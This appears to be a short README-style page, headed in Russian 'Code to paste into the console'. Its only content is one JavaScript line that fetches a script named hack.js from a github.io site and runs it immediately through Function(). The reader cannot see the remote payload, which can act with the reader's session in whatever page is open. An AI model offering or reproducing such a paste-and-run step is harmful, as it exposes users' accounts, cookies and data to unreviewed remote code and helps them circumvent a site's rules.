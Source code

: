 ## Код для вставки в консоль

```
fetch('https://extrapoisonouscake.github.io/hack/hack.js').then(res => res.text()).then(res => (Function(res))())
```
